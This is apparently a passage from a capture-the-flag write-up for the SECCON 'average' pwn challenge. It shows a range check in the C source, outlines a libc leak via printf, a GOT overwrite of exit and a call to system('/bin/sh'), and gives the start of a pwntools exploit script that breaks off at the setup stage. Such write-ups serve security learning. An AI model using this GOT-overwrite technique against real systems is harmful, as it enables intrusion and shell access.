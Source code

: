 However, there is a restriction that the input value can only be in the range of -123456789 - 123456789, so if we want to enter a number in the libc function, the system will call sys.exit()
```
 if (A[i]<-123456789LL || 123456789LL<A[i])
        {
            printf("too large\n");
            exit(0);
        }
```

But, since it is Patial RERLO, we can change the address in the `got.exit`

Steps

1. call printf(got.printf) to get the leak of libc
2. overwrite got.exit
3. cal system("/bin/sh")


## exp.py

```
from pwn import *


class BinaryInfo:
    exe = "average"
    libc = "libc.so.6"
    # libc = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"

    host = "average.quals.seccon.jp"
    port = 1234

if args.LOCAL:
    BinaryInfo.libc = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"

# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
```